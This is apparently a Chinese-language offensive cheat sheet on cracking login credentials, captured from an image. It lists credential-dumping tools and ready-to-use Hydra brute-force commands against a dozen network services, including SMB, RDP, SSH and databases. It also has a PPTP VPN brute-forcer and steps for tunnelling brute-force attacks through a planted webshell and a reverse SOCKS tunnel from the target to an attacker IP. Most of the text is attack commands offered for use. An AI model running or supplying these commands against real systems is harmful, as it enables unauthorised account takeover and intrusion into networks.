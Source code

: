 ### 猜解登录凭证

- retrieve passwords

	- https://github.com/Scotoma8/LaZagne

- 密码喷洒攻击
-  Responder 侦听并伪造请求获得网络上的凭据
- 通过 SMB 协议爆破远程主机的用户名和密码

	- xHydra(kali自带)
	- Hydra
	- Ncrack
	- Medusa
	- Metasploit

- hydra 基础服务弱口令探测

	- 爆破mssql:hydra -l sa -P pwd.txt -e ns -f -o res.json -b json -M ip.txt -t 8 -T 16 -w 20 -V mssql
	- 爆破smb:hydra -l administrator -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V smb
	- 爆破rdp:hydra -l domain\\administrator -P pwd.txt -e ns -f -o res.txt -t 4 -w 20 -V rdp://ip
	- 爆破ssh:hydra -l root -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V ssh://ip
	- 爆破mysql:hydra -l root -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V mysql
	- 爆破pg:hydra -l postgres -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V postgres
	- 爆破redis:hydra -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V redis://ip
	- 爆破ftp:hydra -l wwwadmin -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V ftp://ip
	- 爆破smtp:hydra -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V smtp://ip
	- 爆破imap:hydra -S -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V imap://ip
	- 爆破pop3:hydra -S -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V pop3://ip
	- 爆破telnet:hydra -l administrator -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V telnet
	- 爆破snmp:hydra -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V snmp
	- 爆破socks5:hydra -l admin -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -s port -V socks5://ip

- 爆破pptp协议的vpn

	- the-pptp-bruter -n 100 -u vpn ip < pwd.txt

- 通过加密隧道进行服务爆破

	- http加密隧道

		- abptts基于ssl加密的http隧道工具:
pip install pycrypto
pip install httplib2
python abpttsfactory.py -o webshell
python abpttsclient.py -c webshell\config.txt -u "http://ip/abptts.aspx" -f 127.0.0.1:445/127.0.0.1:445
hydra -l administrator -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V smb://127.0.0.1

	- socks5加密隧道

		- 建立隧道:
攻击机执行: ./ew_for_linux64 -s rcsocks -l 1080 -e 8888
目标机执行: ew_for_Win.exe -s rssocks -d 攻击机ip -e 8888
配置代理:
proxychains.conf:
ProxyList:
socks5 攻击机ip 1080
服务爆破:
proxychains hydra -l sa -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V mssql://目标ip
